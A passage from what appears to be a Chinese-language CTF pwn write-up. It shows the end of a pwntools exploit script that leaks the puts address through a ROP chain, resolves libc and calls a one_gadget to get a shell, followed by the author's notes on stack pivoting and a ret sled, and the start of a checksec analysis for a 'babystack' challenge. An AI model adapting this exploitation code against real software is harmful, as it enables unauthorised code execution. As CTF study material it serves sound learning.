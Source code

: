 ```python
    payload2 = p64(ret_addr)*20+p64(pop_rdi_ret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main']) #填充的p64(ret_addr)*20是因为该bss段距离got表太近会导致程序错误退出/ps:真的doge
    io.sendafter(b'Done!You can check and use your borrow stack now!\n',payload2)

    puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
    print('puts_addr->',hex(puts_addr))
    return puts_addr

def remote_pwn1(puts_addr):
    Lib = LibcSearcher('puts',puts_addr)
    libc_base = puts_addr - Lib.dump('puts')
    one_gadget=libc_base+0x4526a
    payload1 = b'A'*(padding+8)+p64(one_gadget)
    io.sendafter(b'want\n',payload1)
    io.interactive()

puts_addr = leak_puts_libc()
print('=====================')
remote_pwn1(puts_addr=puts_addr)
```

这题打的很曲折,一开始想到了栈迁移,不过一开始想的是泄露出`s`的栈地址,踩了大坑,后续又一个大坑是`bank`在栈上的位置距离`got`表太近(以前从来没注意过),直接填充会导致`got`表被破坏,程序意外退出,同时泄露的地址错误,所以需要做一个`ret滑梯`抬栈(也是才知道这个操作,长度至少是20,太多了也不行,就离谱,没动调过也不是很懂,抄答案のscript_kids)

打了好长时间,不过学到了新东西,自己搞肯定搞不出来

不过该说不说,还是蛮有意思的,我原本以为这个要做两次栈迁移哈哈

# others_babystack

- Canary 保护
- 程序控制流
- 64位libc泄露

```shell
bamuwe@bamuwe:~/done/others_babystack$ checksec babystack
[*] '/home/bamuwe/done/others_babystack/babystack'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序开启了Canary保护

